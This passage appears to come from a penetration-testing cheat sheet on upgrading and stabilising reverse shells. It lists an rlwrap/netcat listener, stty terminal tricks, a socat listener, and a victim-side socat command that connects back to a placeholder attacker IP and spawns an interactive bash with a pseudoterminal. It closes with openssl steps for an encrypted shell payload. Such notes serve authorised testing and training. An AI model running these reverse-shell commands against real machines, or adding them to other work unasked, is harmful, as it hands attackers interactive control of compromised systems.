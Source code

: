 ```bash
sudo apt install rlwrap
```

**Start the listener with `rlwrap`:**

```bash
rlwrap nc -lvnp <PORT>
```

- **Gives:**
    - **Arrow key support**
    - **Tab completion**
    - **Command history**

**For full stability (Linux):**

1. Background shell (**`Ctrl+Z`**).
2. Run **`stty raw -echo; fg`**.

**Best for:**

- **Windows shells** (Netcat/PowerShell)
- **Linux shells needing basic improvements**

### **3. Upgrade to a Fully Stable Socat Shell (Linux Only)**

If the target has **socat installed** (or you can upload it), use this for a **fully interactive TTY**.

**Listener (Attacker Machine)**

```bash
socat TCP-L:<PORT> FILE:`tty`,raw,echo=0
```

**Victim Machine (Connect Back)**

```bash
socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

- **`pty`** → Allocates a pseudoterminal (stabilizes shell).
- **`stderr`** → Shows errors.
- **`sigint`** → Lets **`Ctrl+C`** work inside shell.
- **`setsid`** → Runs in a new session.
- **`sane`** → Normalizes terminal.

**Bonus:**

```bash
stty rows <num> cols <num>  # Adjust terminal size (check with `stty -a` first)
```

**Encryption Payload with socat**

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
